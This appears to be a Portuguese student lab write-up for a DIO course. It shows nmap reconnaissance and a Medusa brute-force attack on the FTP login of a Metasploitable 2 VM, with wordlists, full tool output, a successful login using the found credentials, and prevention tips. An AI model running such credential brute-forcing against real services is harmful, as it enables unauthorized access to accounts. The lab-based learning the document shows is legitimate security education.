




# Simulando ataque com Medusa

Nesse projeto eu tentei criar um ataque artificial numa máquina para exemplificar como seria feito um ataque em serviços de login com uma proteção fraca (sendo senhas, usuários fracos e falta de camadas de proteção).
Todas as ações foram feitas em um ambiente controlado, no caso foram 2 máquinas virtuais: uma com o sistema Kali e outra com o Metasploitable 2.

### Estrutura do teste:

* **Hipervisor:** Oracle VirtualBox
* **Máquina Atacante:** Kali Linux
* **Máquina Alvo:** Metasploitable 2

---

### Passo a passo:

#### 1. Reconhecimento com NMAP
Foi feito um escaneamento para identificar portas e serviços ativos e que as portas estão abertas:

```bash
nmap 192.168.56.102
```

```text
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-11 13:51 -0500
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers: No such file or directory (2)
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.102
Host is up (0.00035s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown
MAC Address: 08:00:27:DF:73:C4 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.37 seconds
```



---

#### 2. Preparação e criação das wordlists
Foram criados arquivos txt simples com nomes de usuários e senhas comuns:

```bash
printf "admin\nmsfadmin\nuser\nteste\nroot\nservice\n" > usuarios.txt 

printf "123456\nadmin\net\npassword\nmsfadmin\ntoor\n" > senhas.txt
```



---

#### 3. Execução da Medusa:

Medusa é a ferramenta principal desse teste, ela é utilizada para tentar várias senhas e usuários para encontrar um login válido!
Ela tem vários parâmetros, o comando que utilizei foi:

```bash
medusa -h 192.168.56.102 -U usuarios.txt -P senhas.txt -M ftp
```

Destrinchando o código fica dessa forma:
* **medusa:** nome da ferramenta utilizada
* **-h:** endereço do alvo
* **-U:** lista de usuários para usar no ataque
* **-P:** lista de senhas para usar no ataque
* **-M:** serviço utilizado de meio para o ataque

Resultado da execução:

```text
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

2026-11-11 14:36:26 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (1 of 6, 0 complete) Password: 123456 (1 of 6 complete)
2026-11-11 14:36:30 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (1 of 6, 0 complete) Password: admin (2 of 6 complete)
2026-11-11 14:36:34 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (1 of 6, 0 complete) Password: et (3 of 6 complete)
2026-11-11 14:36:36 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (1 of 6, 0 complete) Password: password (4 of 6 complete)
2026-11-11 14:36:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (1 of 6, 0 complete) Password: msfadmin (5 of 6 complete)
2026-11-11 14:36:42 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (1 of 6, 0 complete) Password: toor (6 of 6 complete)
2026-11-11 14:36:45 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: msfadmin (2 of 6, 1 complete) Password: 123456 (1 of 6 complete)
2026-11-11 14:36:48 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: msfadmin (2 of 6, 1 complete) Password: admin (2 of 6 complete)
2026-11-11 14:36:51 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: msfadmin (2 of 6, 1 complete) Password: et (3 of 6 complete)
2026-11-11 14:36:54 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: msfadmin (2 of 6, 1 complete) Password: password (4 of 6 complete)
2026-11-11 14:36:54 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: msfadmin (2 of 6, 1 complete) Password: msfadmin (5 of 6 complete)
2026-11-11 14:36:54 ACCOUNT FOUND: [ftp] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS]
2026-11-11 14:36:58 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: user (3 of 6, 2 complete) Password: 123456 (1 of 6 complete)
2026-11-11 14:37:00 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: user (3 of 6, 2 complete) Password: admin (2 of 6 complete)
2026-11-11 14:37:03 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: user (3 of 6, 2 complete) Password: et (3 of 6 complete)
2026-11-11 14:37:06 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: user (3 of 6, 2 complete) Password: password (4 of 6 complete)
2026-11-11 14:37:09 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: user (3 of 6, 2 complete) Password: msfadmin (5 of 6 complete)
2026-11-11 14:37:12 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: user (3 of 6, 2 complete) Password: toor (6 of 6 complete)
2026-11-11 14:37:15 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: teste (4 of 6, 3 complete) Password: 123456 (1 of 6 complete)
2026-11-11 14:37:18 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: teste (4 of 6, 3 complete) Password: admin (2 of 6 complete)
2026-11-11 14:37:21 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: teste (4 of 6, 3 complete) Password: et (3 of 6 complete)
2026-11-11 14:37:23 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: teste (4 of 6, 3 complete) Password: password (4 of 6 complete)
2026-11-11 14:37:26 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: teste (4 of 6, 3 complete) Password: msfadmin (5 of 6 complete)
2026-11-11 14:37:30 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: teste (4 of 6, 3 complete) Password: toor (6 of 6 complete)
2026-11-11 14:37:32 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: root (5 of 6, 4 complete) Password: 123456 (1 of 6 complete)
2026-11-11 14:37:36 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: root (5 of 6, 4 complete) Password: admin (2 of 6 complete)
2026-11-11 14:37:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: root (5 of 6, 4 complete) Password: et (3 of 6 complete)
2026-11-11 14:37:42 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: root (5 of 6, 4 complete) Password: password (4 of 6 complete)
2026-11-11 14:37:45 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: root (5 of 6, 4 complete) Password: msfadmin (5 of 6 complete)
2026-11-11 14:37:47 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: root (5 of 6, 4 complete) Password: toor (6 of 6 complete)
2026-11-11 14:37:51 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: service (6 of 6, 5 complete) Password: 123456 (1 of 6 complete)
2026-11-11 14:37:54 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: service (6 of 6, 5 complete) Password: admin (2 of 6 complete)
2026-11-11 14:37:57 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: service (6 of 6, 5 complete) Password: et (3 of 6 complete)
2026-11-11 14:37:59 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: service (6 of 6, 5 complete) Password: password (4 of 6 complete)
2026-11-11 14:38:02 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: service (6 of 6, 5 complete) Password: msfadmin (5 of 6 complete)
2026-11-11 14:38:06 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: service (6 of 6, 5 complete) Password: toor (6 of 6 complete)
```

Nessa execução foi encontrado um login:

> `2026-11-11 14:36:54 ACCOUNT FOUND: [ftp] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS]`

Que indicou a senha e o usuário correto, que isso nos leva ao próximo passo!



---

#### 4. Tentativa de acesso

Para tentar fazer acesso à máquina usando as credenciais descobertas, foi realizada uma tentativa de conectar pelo meio do serviço FTP (Serviço utilizado de meio para o ataque)

Comando utilizado: `ftp 192.168.56.102`

```text
Connected to 192.168.56.102.
220 (vsFTPd 2.3.4)
Name (192.168.56.102:kali): msfadmin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```



---

### Formas de prevenção:

Com a ajuda do curso e com esses testes analisei as formas de prevenir esse tipo de ataque:

* Senhas fortes, com vários caracteres, símbolos, números ou senhas já vazadas
* Bloqueio por IP após perceber várias tentativas de um mesmo IP
* Usar protocolos criptografados
* Usar autenticação de dois fatores

---

<details>
<summary>📋 Clique aqui para ver o histórico completo do console</summary>

```text
──(kali㉿kali)-[~]
└─$ ping -c 192.168.56.102
ping: invalid argument: '192.168.56.102'
                                                                             
┌──(kali㉿kali)-[~]
└─$ ping -c 4  192.168.56.102
PING 192.168.56.102 (192.168.56.102) 56(84) bytes of data.
64 bytes from 192.168.56.102: icmp_seq=1 ttl=64 time=0.812 ms
64 bytes from 192.168.56.102: icmp_seq=2 ttl=64 time=0.380 ms
64 bytes from 192.168.56.102: icmp_seq=3 ttl=64 time=0.445 ms
64 bytes from 192.168.56.102: icmp_seq=4 ttl=64 time=0.448 ms

--- 192.168.56.102 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3058ms
rtt min/avg/max/mdev = 0.380/0.521/0.812/0.170 ms
                                                                             
┌──(kali㉿kali)-[~]
└─$ nmap 192.168.56.102
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-11 13:51 -0500
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers: No such file or directory (2)
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.102
Host is up (0.00035s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown
MAC Address: 08:00:27:DF:73:C4 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.37 seconds
                                                                             
┌──(kali㉿kali)-[~]
└─$ 
                                                                             
┌──(kali㉿kali)-[~]
└─$ mkdir primeiro desafio-dio
                                                                             
┌──(kali㉿kali)-[~]
└─$ ls                        
desafio-dio  Documents  Music     primeiro  Public     Videos
Desktop      Downloads  Pictures  Projects  Templates
                                                                             
┌──(kali㉿kali)-[~]
└─$ rmdir primeiro
                                                                             
┌──(kali㉿kali)-[~]
└─$ ls
desafio-dio  Documents  Music     Projects  Templates
Desktop      Downloads  Pictures  Public    Videos
                                                                             
┌──(kali㉿kali)-[~]
└─$ cd desafio-dio
                                                                             
┌──(kali㉿kali)-[~/desafio-dio]
└─$ printf "123456\nadmin\nroot\npassword\nmsfadmin\ntoor\n" > senhas.txt
                                                                             
┌──(kali㉿kali)-[~/desafio-dio]
└─$ cat senhas.txt                                                         
123456
admin
root
password
msfadmin
toor
                                                                             
┌──(kali㉿kali)-[~/desafio-dio]
└─$ printf "123456\nadmin\net\npassword\nmsfadmin\ntoor\n" > senhas.txt
                                                                             
┌──(kali㉿kali)-[~/desafio-dio]
└─$ ls            
senhas.txt
                                                                             
┌──(kali㉿kali)-[~/desafio-dio]
└─$ cat senhas.txt 
123456
admin
et
password
msfadmin
toor
                                                                             
┌──(kali㉿kali)-[~/desafio-dio]
└─$ printf "admin\nmsfadmin\nuser\nteste\nroot\nservice\n" > usuarios.txt 
                                                                             
┌──(kali㉿kali)-[~/desafio-dio]
└─$ ls
senhas.txt  usuarios.txt
                                                                             
┌──(kali㉿kali)-[~/desafio-dio]
└─$ medusa -h 192.168.56.102 -U usuarios.txt -P senhas.txt 
                                                                             
┌──(kali㉿kali)-[~/desafio-dio]
└─$  medusa -h 192.168.56.102 -U usuarios.txt -P senhas.txt -M ftp  
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

2026-11-11 14:36:26 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (1 of 6, 0 complete) Password: 123456 (1 of 6 complete)
2026-11-11 14:36:30 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (1 of 6, 0 complete) Password: admin (2 of 6 complete)
2026-11-11 14:36:34 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (1 of 6, 0 complete) Password: et (3 of 6 complete)
2026-11-11 14:36:36 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (1 of 6, 0 complete) Password: password (4 of 6 complete)
2026-11-11 14:36:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (1 of 6, 0 complete) Password: msfadmin (5 of 6 complete)
2026-11-11 14:36:42 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (1 of 6, 0 complete) Password: toor (6 of 6 complete)
2026-11-11 14:36:45 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: msfadmin (2 of 6, 1 complete) Password: 123456 (1 of 6 complete)
2026-11-11 14:36:48 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: msfadmin (2 of 6, 1 complete) Password: admin (2 of 6 complete)
2026-11-11 14:36:51 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: msfadmin (2 of 6, 1 complete) Password: et (3 of 6 complete)
2026-11-11 14:36:54 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: msfadmin (2 of 6, 1 complete) Password: password (4 of 6 complete)
2026-11-11 14:36:54 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: msfadmin (2 of 6, 1 complete) Password: msfadmin (5 of 6 complete)
2026-11-11 14:36:54 ACCOUNT FOUND: [ftp] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS]
2026-11-11 14:36:58 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: user (3 of 6, 2 complete) Password: 123456 (1 of 6 complete)
2026-11-11 14:37:00 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: user (3 of 6, 2 complete) Password: admin (2 of 6 complete)
2026-11-11 14:37:03 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: user (3 of 6, 2 complete) Password: et (3 of 6 complete)
2026-11-11 14:37:06 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: user (3 of 6, 2 complete) Password: password (4 of 6 complete)
2026-11-11 14:37:09 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: user (3 of 6, 2 complete) Password: msfadmin (5 of 6 complete)
2026-11-11 14:37:12 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: user (3 of 6, 2 complete) Password: toor (6 of 6 complete)
2026-11-11 14:37:15 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: teste (4 of 6, 3 complete) Password: 123456 (1 of 6 complete)
2026-11-11 14:37:18 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: teste (4 of 6, 3 complete) Password: admin (2 of 6 complete)
2026-11-11 14:37:21 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: teste (4 of 6, 3 complete) Password: et (3 of 6 complete)
2026-11-11 14:37:23 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: teste (4 of 6, 3 complete) Password: password (4 of 6 complete)
2026-11-11 14:37:26 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: teste (4 of 6, 3 complete) Password: msfadmin (5 of 6 complete)
2026-11-11 14:37:30 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: teste (4 of 6, 3 complete) Password: toor (6 of 6 complete)
2026-11-11 14:37:32 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: root (5 of 6, 4 complete) Password: 123456 (1 of 6 complete)
2026-11-11 14:37:36 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: root (5 of 6, 4 complete) Password: admin (2 of 6 complete)
2026-11-11 14:37:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: root (5 of 6, 4 complete) Password: et (3 of 6 complete)
2026-11-11 14:37:42 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: root (5 of 6, 4 complete) Password: password (4 of 6 complete)
2026-11-11 14:37:45 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: root (5 of 6, 4 complete) Password: msfadmin (5 of 6 complete)
2026-11-11 14:37:47 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: root (5 of 6, 4 complete) Password: toor (6 of 6 complete)
2026-11-11 14:37:51 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: service (6 of 6, 5 complete) Password: 123456 (1 of 6 complete)
2026-11-11 14:37:54 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: service (6 of 6, 5 complete) Password: admin (2 of 6 complete)
2026-11-11 14:37:57 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: service (6 of 6, 5 complete) Password: et (3 of 6 complete)
2026-11-11 14:37:59 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: service (6 of 6, 5 complete) Password: password (4 of 6 complete)
2026-11-11 14:38:02 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: service (6 of 6, 5 complete) Password: msfadmin (5 of 6 complete)
2026-11-11 14:38:06 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 complete) User: service (6 of 6, 5 complete) Password: toor (6 of 6 complete)
                                                                             
┌──(kali㉿kali)-[~/desafio-dio]
└─$ ftp 192.168.56.102
Connected to 192.168.56.102.
220 (vsFTPd 2.3.4)
Name (192.168.56.102:kali): msfadmin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

</details>

---

Projeto desenvolvido por **João Vitor Neto** para o desafio da DIO.
